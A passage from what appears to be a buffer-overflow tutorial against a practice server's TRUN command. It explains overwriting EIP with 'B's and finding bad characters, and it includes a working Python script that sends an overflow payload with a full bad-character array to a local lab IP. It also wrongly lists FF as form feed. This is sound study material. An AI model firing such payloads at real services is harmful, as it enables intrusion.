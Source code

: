 ```
except:
        print "Error connecting to the server"
        sys.exit()
```
After writing 2003 “A”, this script will write 4 “B” & if we see these 4 “B” in EIP, 
we have verified that we can write in EIP. The output from the following script:
> 42424242 "Means 4'B "

Finding the bad characters
==========================

A bad character is essentially a rundown of undesirable characters that can break the shellcodes. There is no universal arrangement of bad characters, as we would presumably be starting to see, yet relying upon the application and the developer logic there is an alternate arrangement of bad characters for each program that we would experience. Thusly, we should discover the bad characters in each application before composing the shellcode.

Some of the very common bad characters are:

* 00 for NULL
* 0A for Line Feed \n
* 0D for Carriage Return \r
* FF for Form Feed \f
 
 > List of bad characters can be easily found on Google. Remember /x00 is always a bad character.
 
 https://www.ins1gn1a.com/identifying-bad-characters/
 
 We will modify our script like this now:
 
 ```
#!/usr/bin/python
import sys, socket

############### Finding the badchars ##################

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
shellcode = "A" * 2003 + "B" * 4 + badchars

try:

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.80.1',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close

except:
        print "Error connecting to the server"
        sys.exit()
 ```
 Once we fire this script and program crashes, we need to right-click the ESP and “Follow in DUMP“ 